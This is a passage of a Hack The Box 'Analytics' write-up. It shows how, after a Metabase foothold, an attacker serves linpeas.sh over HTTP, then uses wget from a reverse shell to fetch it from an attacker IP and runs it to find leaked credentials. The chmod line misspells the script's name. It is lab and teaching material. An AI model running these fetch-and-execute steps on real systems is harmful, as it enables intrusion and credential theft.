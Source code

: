     https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646

    <p>&nbsp;</p>
----------------------------------------------------------------------------------------------------------------------------------------------------
 
 # User Access
	
----------------------------------------------------------------------------------------------------------------------------------------------------	 

- **Now since we have our initial access to metabase system lets gather information that could help us find leaked credentials or way to escalate our privileges later on. For this task, I usually prefer using linpeas.sh (linux) as it scans the system for important files, possible exploits and many more details to help us achieve our targeted goal, which is gaining user access for now.**

    <p>&nbsp;</p>

    - **To get started, we download linpeas.sh (included in this repo) on the victim's system by doing the following:**

        **1- Navigate your terminal to the path where you have downloaded linpeas.sh to and host the folder over HTTP by typing the below command in your terminal.**


        ```python
            ┌──(root㉿kali)-[~/htb/machines/analytics/payloads]
            └─# python3 -m http.server 80
        ``` 
       
        **2- Now we are ready to download the payload to the victim's home path by typing the below command in the rev-shell terminal that we got eariler using msfconsole (MetaSploit) and we give linpeas.sh execution privileges before we execute it. (metabase)**

           $ wget http://10.10.1x.xx/linpeas.sh
           $ chmod +x linpease.sh
           $ ./linpeas.sh



                                                     
        ![Alt text](.screenshots/user-creds-leak.png)
